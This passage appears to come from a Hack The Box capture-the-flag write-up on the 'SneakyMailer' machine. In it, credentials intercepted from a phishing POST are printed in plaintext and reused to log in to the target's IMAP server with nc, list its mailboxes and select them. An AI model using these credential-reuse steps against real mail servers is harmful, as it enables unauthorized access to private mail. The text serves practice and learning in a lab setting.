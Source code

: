 This is a strange post request, I was waiting for a simple get request, but it is posting the credentials for `paulbyrd@sneakymailer.htb: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht`. So I can start exploiting the system.

# Exploitation

---

With these credentials, I should be able to log in to imap as user paulbyrd. To start an IMAP command, you normally use A0001, but it could be anything. I'm glad that it worked here with A0001:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/sneakymailer]
└─$ nc sneakymailer.htb 143
* OK [CAPABILITY IMAP4rev1 UIDPLUS CHILDREN NAMESPACE THREAD=ORDEREDSUBJECT THREAD=REFERENCES SORT QUOTA IDLE ACL ACL2=UNION STARTTLS ENABLE UTF8=ACCEPT] Courier-IMAP ready. Copyright 1998-2018 Double Precision, Inc.  See COPYING for distribution information.
A0001 login paulbyrd ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
* OK [ALERT] Filesystem notification initialization error -- contact your mail administrator (check for configuration errors with the FAM/Gamin library)
A0001 OK LOGIN Ok.
```

To list the mailboxes, IMAP uses the LIST command:

```bash
A0001 LIST "" "*"
* LIST (\Marked \HasChildren) "." "INBOX"
* LIST (\HasNoChildren) "." "INBOX.Trash"
* LIST (\HasNoChildren) "." "INBOX.Sent"
* LIST (\HasNoChildren) "." "INBOX.Deleted Items"
* LIST (\HasNoChildren) "." "INBOX.Sent Items"
A0001 OK LIST completed
```

I can start reading mails by selecting a mailbox:

```bash
A0001 SELECT INBOX
* FLAGS (\Draft \Answered \Flagged \Deleted \Seen \Recent)
* OK [PERMANENTFLAGS (\* \Draft \Answered \Flagged \Deleted \Seen)] Limited
* 1 EXISTS
* 1 RECENT
* OK [UIDVALIDITY 589480766] Ok
* OK [MYRIGHTS "acdilrsw"] ACL
A0001 OK [READ-WRITE] Ok
```

But it is empty, so I try every mailbox:

```bash
A0001 SELECT "INBOX.Sent Items"
* FLAGS (\Draft \Answered \Flagged \Deleted \Seen \Recent)
* OK [PERMANENTFLAGS (\* \Draft \Answered \Flagged \Deleted \Seen)] Limited
* 2 EXISTS
* 0 RECENT
* OK [UIDVALIDITY 589480766] Ok
* OK [MYRIGHTS "acdilrsw"] ACL
A0001 OK [READ-WRITE] Ok
```
